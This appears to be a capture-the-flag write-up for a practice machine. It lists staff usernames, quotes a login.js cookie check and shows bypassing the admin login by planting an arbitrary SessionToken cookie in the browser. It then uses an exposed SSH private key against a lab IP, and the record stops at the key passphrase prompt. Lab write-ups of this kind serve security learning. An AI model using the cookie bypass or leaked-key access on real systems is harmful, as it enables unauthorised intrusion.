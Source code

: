There is an about-us page. These might be the usernames!
```
Ninja - Lead Developer
Pars - Shibe Enthusiast and Emotional Support Animal Manager
Szymex - Head Of Security
Bee - Chief Drinking Water Coordinator
MuirlandOracle - Cryptography Consultant
```


## 📌 Task 1: Hack the machine and get the flag in user.txt

### Initial foothold

There is an admin page that calls login.js

Looking at login.js there seems to be a check for a cookie. If it's correct then it bypasses the login page. 
```
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
```

So we all we need to do is access the /admin/ page with the cookie set. It doesn't seem to matter what the cookie is set to.

If we open developer mode (F12) and go to the storage section we can add in our fake cookie!

```
Go to storage
click the plus to add in a new value
Change the name to "SessionToken" and choose any vaue
hit fresh on the page!
```
It worked! We're now presented with an SSH private key for james (from paradox). Let's see if we can SSH in.

```bash
<create a file called id_rsa and paste in the contents from the page>
chmod 600 id_rsa
ssh -i id_rsa james@10.10.208.137
```

**Results:**
```
The authenticity of host '10.10.208.137 (10.10.208.137)' can't be established.
ED25519 key fingerprint is SHA256:FhrAF0Rj+EFV1XGZSYeJWf5nYG0wSWkkEGSO5b+oSHk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.208.137' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```
